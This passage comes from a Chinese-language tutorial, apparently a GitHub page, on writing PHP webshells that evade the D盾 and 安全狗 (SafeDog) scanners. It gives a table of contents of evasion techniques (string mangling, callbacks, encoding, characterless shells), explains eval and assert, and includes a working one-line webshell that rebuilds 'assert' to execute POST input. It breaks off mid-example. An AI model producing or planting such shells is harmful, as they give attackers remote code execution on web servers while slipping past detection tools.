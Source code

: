 

- [1. 关于eval与assert](#1-关于eval与assert)
    - [1.1. 关于eval函数](#11-关于eval函数)
    - [1.2. 关于 assert 函数](#12-关于-assert-函数)
- [2. 字符串变形](#2-字符串变形)
    - [2.1. PHP中关于操作字符串的函数](#21-php中关于操作字符串的函数)
    - [2.2. 变形](#22-变形)
- [3. 定义函数绕过](#3-定义函数绕过)
- [4. 回调函数](#4-回调函数)
- [5. 回调函数变形](#5-回调函数变形)
- [6. 特殊字符干扰](#6-特殊字符干扰)
- [7. 数组](#7-数组)
- [8. 类](#8-类)
- [9. 编码绕过](#9-编码绕过)
- [10. 无字符特征马](#10-无字符特征马)
    - [10.1. 利用异或, 编码等方式 例如 p 神博客的](#101-利用异或-编码等方式-例如-p-神博客的)
    - [10.2. 利用正则匹配字符 如 Tab 等 然后转换为字符](#102-利用正则匹配字符-如-tab-等-然后转换为字符)
    - [10.3. 利用 POST 包获取关键参数执行 例如](#103-利用-post-包获取关键参数执行-例如)
- [11. PHP7.1 后 webshell 何去何从](#11-php71-后-webshell-何去何从)
- [12. 总结](#12-总结)


# 1. 关于eval与assert
## 1.1. 关于eval函数
eval 是一个语言构造器而不是一个函数，不能被可变函数调用。通俗的说比如你`<?php $a=eval;$a()?>`这样是不行的。所以用eval的话达不到assert的灵活
## 1.2. 关于 assert 函数
assert() 回调函数在构建自动测试套件的时候尤其有用，因为它们允许你简易地捕获传入断言的代码，并包含断言的位置信息。当信息能够被其他方法捕获，使用断言可以让它更快更方便！
# 2. 字符串变形
字符串变形多数用于遛狗，相当对于D盾，安全狗更加重视形，一个特殊的变形就能绕过安全狗，
## 2.1. PHP中关于操作字符串的函数
```php
ucwords() //函数把字符串中每个单词的首字符转换为大写。
ucfirst() //函数把字符串中的首字符转换为大写。
trim() //函数从字符串的两端删除空白字符和其他预定义字符。
substr_replace() //函数把字符串的一部分替换为另一个字符串
substr() //函数返回字符串的一部分。
strtr() //函数转换字符串中特定的字符。
strtoupper() //函数把字符串转换为大写。
strtolower() //函数把字符串转换为小写。
strtok() //函数把字符串分割为更小的字符串
str_rot13() //函数对字符串执行 ROT13 编码。
//PHP的灵活性操作字符串的函数还有很多
```
## 2.2. 变形
用 substr_replace() 函数变形 assert 达到免杀的效果
```php
<?php
$a = substr_replace("assexx","rt",4);
$a($_POST['x']);
?>
```
# 3. 定义函数绕过
定义一个函数把关键词分割达到 bypass 效果
```php
<?php 
function kdog($a){
```